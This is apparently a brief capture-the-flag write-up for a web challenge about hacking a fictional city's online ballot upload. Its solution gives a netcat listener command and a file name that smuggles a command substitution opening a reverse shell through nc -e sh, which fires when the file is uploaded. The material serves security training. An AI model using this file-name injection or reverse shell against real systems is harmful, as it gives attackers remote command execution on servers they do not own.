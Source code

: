# Election

Zlatoust is holding their yearly election for city mayor. This year, they've upgraded to an online ballot submission system. Can you find a way to hack it?

>**Note**: This challenge does not involve any bruteforcing/dirbusting.

## Description

Web Level 1

## Solution

1. Term 1: `nc -lvp 1337`
2. Term 2: `touch 'test.$(nc 127.0.0.1 1337 -e sh);pdf'`

Upload the file created in Term 2 for a shell callback in Term 1.
